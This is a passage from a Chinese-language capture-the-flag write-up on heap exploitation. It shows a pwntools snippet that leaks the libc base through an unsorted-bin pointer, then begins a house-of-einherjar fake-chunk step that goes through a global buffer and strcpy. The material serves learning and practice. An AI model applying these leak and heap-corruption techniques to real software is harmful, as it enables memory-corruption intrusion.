#### 2. leak libc base

free(chunk3) 到 unsorted_bin，由于是第一个unsorted_bin中的chunk所以 fb和bk指向 unsorted_bin起始？

经过调试，main_arena = unsorted_bin - 88  ，  libc_base = main_arena - main_arena_offset。

![img-analysis-2-1](house-of-einherjar/img-analysis-2-1.png)

```python
    delete(3)
    p.recvuntil(' # CONTENT: ')
    data = p.recvuntil('\n', drop=True)
    unsorted_offset_arena = 8 + 10 * 8
    main_arena = u64(data.ljust(8, '\x00')) - unsorted_offset_arena
    libc_base = main_arena - main_arena_offset
    log.success('main arena addr: ' + hex(main_arena))
    log.success('libc base addr: ' + hex(libc_base))
```

#### 3. house of einherjar

常见 fake_chunk ， 会将edit的数据先保存到 0x602040 的 0x100 中，然后strcpy 。
